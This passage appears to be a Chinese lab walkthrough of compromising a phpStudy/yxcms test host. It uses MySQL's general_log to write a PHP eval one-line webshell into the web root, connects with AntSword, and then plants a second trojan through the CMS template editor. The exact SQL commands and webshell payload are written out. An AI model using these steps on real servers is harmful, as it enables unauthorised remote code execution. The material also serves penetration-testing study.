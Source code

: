 ③、输入“show variables like '%secure_file%';”查询下是否能直接写入shell。执行成功，这里secure_file_priv的值为NULL，说明不能使用into outfile的方式写入shell

![image-20220615104145912](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151041958.png)





④、作罢，尝试日志写入shell。

在这里简述下：general_log和general_log_file

mysql打开general_log开关之后，所有对数据库的操作都将记录在general_log_file指定的文件目录中，以原始的状态来显示，如果将general_log开关打开，general_log_file指定一个php文件，则查询的操作将会全部写入到general_log_file指定的文件，通过访问general_log_file指定的文件来获取webshell。

**第一步**、首先开启日志记录：“set global general_log = "ON";”,开启成功

![image-20220615104302652](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151043694.png)

**第二步**、查看当前的日志存放的目录：show variables like 'general%'; 可以看到当前日志存放的目录为C:\phpstudy\MYSQL\data\stu1.log。

![image-20220615104351187](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151043215.png)

**第三步**、通过general_log_file来获取webshell，先指定一个文件，没有文件会创建一个新文件

set global general_log_file = "C:/phpStudy/www/1.php";

指定成功，接下来再执行的操作都会记录到1.php这个文件中



![image-20220615104651699](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046732.png)

![image-20220615104643221](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046261.png)

**第四步**、执行SELECT '<?php eval($_POST["123"]);?>' 也就是在1.php中写入一句话木马，连接密码123，执行成功，意思就是已经写进去了

![image-20220615104800080](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151048117.png)

**第五步**、蚁剑连接，连接成功

![image-20220626112552824](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125935.png)

#### 2、方法二：

①、访问http://192.168.72.145/yxcms/，更具提示登录

![image-20220626110531415](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261105465.png)



②、进来后是一些关于服务器的相关配置，随便点点看看，在前台模板这里，有一个管理模板文件的按钮，点进去，发现有很多PHP文件。

![image-20220626111013748](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261110826.png)   

③、在此随便选择一个PHP文件，这里以前台模板文件index_index.php为例，编辑写入一句话木马，为了跟方法一区分开，这里连接密码为456

![image-20220626112308530](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261123582.png)
